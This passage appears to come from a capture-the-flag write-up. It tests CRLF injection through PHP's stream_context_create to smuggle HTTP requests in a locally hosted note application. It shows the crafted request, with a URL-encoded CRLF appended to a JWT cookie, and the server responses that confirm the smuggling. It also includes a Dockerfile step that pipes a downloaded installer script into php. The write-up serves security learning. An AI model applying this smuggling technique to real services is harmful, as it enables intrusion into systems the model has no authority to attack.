 Hmm... Can we do CRLF injection via PHP function `stream_context_create`? Let's test it locally via `docker compose up --build -d`!

> Note: Try to modify `frontend/Dockerfile`'s PHP composer installation with the following. Otherwise composer won't be installed due to the time to install it.
> ```bash
> RUN curl -sS https://getcomposer.org/installer | php -- --install-dir=/usr/local/bin --filename=composer && composer update
> ``` 

After logging in and creating a new note, we can send the following request to test the **CRLF injection to HTTP request smuggling**:

```http
GET /note.php?id=<note_id_here> HTTP/1.1
Host: localhost:4891
Cookie: auth=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InNpdW5hbSIsImlhdCI6MTczNTYzMzE1NCwiZXhwIjoxNzM1NjM2NzU0fQ.Dfa8LvzQclcK3C-bUOPt5UdGwYBP5TlXWB5B4tYqv0kTtbj6fPIt3uuQ_dpIklTSmEY7TNly2i-8U9fyUoJnDKS84Qv7Ps5e3Be9pjwwqxKbS5F6V-P9Ja39xDODmYP45gapHQ6v7nlt6krArvhSZLoXPHOICoJBfrJTGbTeii9G2OUIJrGDxZn4UhmUlMrdvA198ZxMROX9--SnoQIZz7DL7Hyapx2a95mWDvLqlYIkOG67_9MKCKOrshMS_ioXYbRRjb-gSyydje76x44yGabHZQTPtGUr_MW79tSJ-dWswMZ6Vatjj6UOZjpNsBQ4gWL7a9PL8tCwvi15t5ua_Q%0d%0a%0d%0a


```

Smuggled request:

```
[other_headers_here]


```

> Note: We need to URL encode the CR and LF characters. PHP will then URL decode them.

Response:

```http
HTTP/1.1 503 Service Unavailable
Server: nginx/1.22.1
Date: Tue, 31 Dec 2024 08:19:45 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Content-Length: 445

Failed to decode response from http://backend/e88869df3efe30ba5e0afb8bbad0a9be: {"note":{"content":"bar","title":"foo"},"success":true}
HTTP/1.1 400 Bad Request
Server: nginx/1.22.1
Date: Tue, 31 Dec 2024 08:19:45 GMT
Content-Type: text/html
Content-Length: 157
Connection: close

<html>
<head><title>400 Bad Request</title></head>
<body>
<center><h1>400 Bad Request</h1></center>
<hr><center>nginx/1.22.1</center>
</body>
</html>
```
